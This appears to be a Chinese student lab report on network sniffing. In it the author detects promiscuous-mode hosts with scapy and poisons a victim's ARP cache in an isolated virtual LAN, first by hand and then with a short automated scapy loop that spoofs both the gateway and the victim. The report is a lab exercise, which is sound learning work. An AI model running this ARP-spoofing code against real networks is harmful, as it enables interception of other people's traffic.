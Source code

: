 # 第四章实验 网络监听

### 网络拓扑

![](/img/0x04_a.png)

* 网关：
  * 172.16.222.1
  * 08:00:27:36:d3:2a  /  enp0s10
  * ![](/img/0x04_1.png)
* 攻击者：
  * 172.16.222.111
  * 08:00:27:0e:34:8d  /  eth0
  * ![](/img/0x04_2.png)
* 受害者：
  * 172.16.222.101
  * 08:00:27:1d:d1:d3  /  enp0s3
  * ![](/img/0x04_3.png)



### 实验准备

* 在攻击者主机上安装scapy（Linux）

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```



### 实验一：检测局域网中的异常终端

​	检查受害者主机是否开启混杂模式，需要注意的是，结果中并没有PROMISC字符串

```bash
ip link show enp0s3
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
     link/ether 08:00:27:1d:d1:d3 brd ff:ff:ff:ff:ff:ff
```

​	在攻击者主机上进入scapy，并在 scapy 的交互式终端输入以下代码回车执行

```python
pkt = promiscping("172.16.222.101")
```

> promiscping的作用是：Send ARP who-has requests to determine which hosts are in promiscuous mode，即发送ARP请求以确定哪些主机处于混杂模式

​	此时的输出结果为下所示

```python
>>> pkt = promiscping("172.16.222.101")
---------------------------------------------------------------------------
PermissionError                           Traceback (most recent call last)
<ipython-input-1-13d733bc8cc2> in <module>
----> 1 pkt = promiscping("172.16.222.101")

/usr/lib/python3/dist-packages/scapy/layers/l2.py in promiscping(net, timeout, fake_bcast, **kargs)                                                       
    670     """Send ARP who-has requests to determine which hosts are in promiscuous mode
    671     promiscping(net, iface=conf.iface)"""
--> 672     ans, unans = srp(Ether(dst=fake_bcast) / ARP(pdst=net),
    673                      filter="arp and arp[7] = 2", timeout=timeout, iface_hint=net, **kargs)  # noqa: E501
    674     ans = ARPingResult(ans.res, name="PROMISCPing")

/usr/lib/python3/dist-packages/scapy/sendrecv.py in srp(x, promisc, iface, iface_hint, filter, nofilter, type, *args, **kargs)                            
    550     if iface is None and iface_hint is not None:
    551         iface = conf.route.route(iface_hint)[0]
--> 552     s = conf.L2socket(promisc=promisc, iface=iface,
    553                       filter=filter, nofilter=nofilter, type=type)   
    554     result = sndrcv(s, x, *args, **kargs)

/usr/lib/python3/dist-packages/scapy/arch/linux.py in __init__(self, iface, type, promisc, filter, nofilter, monitor)                                     
    396                 "The 'monitor' argument has no effect on native linux sockets."                                                                   
    397             )
--> 398         self.ins = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(type))  # noqa: E501
    399         if not nofilter:
    400             if conf.except_filter:

/usr/lib/python3.9/socket.py in __init__(self, family, type, proto, fileno)
    230             if proto == -1:
    231                 proto = 0
--> 232         _socket.socket.__init__(self, family, type, proto, fileno)
    233         self._io_refs = 0
    234         self._closed = False

PermissionError: [Errno 1] Operation not permitted
```

​	显然这是错误的，查阅资料得知此操作需要root权限，退出scapy并`sudo scapy`进入，重新键入代码得到结果：

```python
>>> pkt = promiscping("172.16.222.101")
Begin emission:
Finished sending 1 packets.

Received 0 packets, got 0 answers, remaining 1 packets
```

​	此时，回到受害者主机上，输入以下代码启动网卡混杂模式，并再次重复第一步确认是否开启成功：

```bash
sudo ip link set enp0s3 promisc on
```

![](/img/0x04_4.png)

​	如图，成功开启受害者主机网卡的混杂模式。让我们回到攻击者主机上的 scapy 交互式终端继续执行命令，观察两次命令的输出结果差异。

```python
>>> pkt = promiscping("172.16.222.101")
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
  08:00:27:1d:d1:d3 PcsCompu 172.16.222.101
```

​	很显然，在受害者主机上打开网卡混杂模式后，攻击者的promiscping操作得到了正常的回应，返回结果是受害者主机的MAC地址和IP地址。

​	在受害者主机上用`sudo ip link set enp0s3 promisc off`命令来手动关闭该网卡的「混杂模式」。



### 实验二 手工单步“毒化”目标主机的 ARP 缓存

​	以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![](/img/0x04_5.png)

```python
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
# 结果
# >>> recved = srp(arpbroadcast, timeout=2)
# Begin emission:
# Finished sending 1 packets.
# *
# Received 1 packets, got 1 answers, remaining 0 packets

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.222.101
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.101", hwdst="08:00:27:0e:34:8d")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

​	如下图：

![](/img/0x04_6.png)

​	此时在受害者主机上查看 ARP 缓存，发现靶机并没有任何变化，按道理来说应该成功毒化了才对

![](/img/0x04_7.png)

​	在靶机上用`tcpdump`进行抓包实验，发现根本什么都收不到

![](/img/0x04_8.png)

​	我联想到[视频](https://www.bilibili.com/video/BV1CL41147vX?p=37)中似乎有类似的问题，所以尝试将sendp改为send，效果显著。原理并不清楚，但考虑到sendp是第二层的工具，send是第三层的工具，或许是因为ARP协议独立于第二、第三层的特殊性？

![](/img/0x04_9.png)

​	可以看到，受害者主机立刻就有了反应，但是在第一次尝试后，还是投毒失败。在终端上实时监视时可以看到在抓包时，上图中红框部分，前半部分在我们投毒时几乎立即有了反应，但后半部分过了一段时间才出现，此时立即结束抓包并检查ARP目录，发现投毒失败，推测可能是Debian系统每隔一段时间就会在后台向网关确定MAC地址是否有变化。

​	立即再次在攻击者主机上发送投毒包，来受害者主机上查看，一段时间内（绿框）受害者主机被成功毒化，但是一段时间后MAC地址又会变为正常（黄框），基本确定我的假设。



### 实验三 基于scapy编写自动化工具进行投毒

​	以下代码在攻击者主机中的scapy交互环境中使用

```python
# 投毒
def trick(gm,vm): # gm为网关IP地址，vm为受害者主机IP地址
    send(ARP(op="who-has", pdst=vm, psrc=gm))
    send(ARP(op="who-has", pdst=gm, psrc=vm))

# 主体函数
def do_now():
    for x in range(0,100):
        trick("172.16.222.1","172.16.222.101")
        time.sleep(0.1) # 每0.1秒发一次
        
do_now()
```

![](/img/0x04_b.png)

​	如上图，在执行自动化脚本后，成功投毒。



### 参考链接

[ARP Cache Poisoning using Scapy](https://medium.datadriveninvestor.com/arp-cache-poisoning-using-scapy-d6711ecbe112)

[Linux操作系统中删除ARP缓存的命令](https://cloud.tencent.com/developer/article/1009956?from=14588)
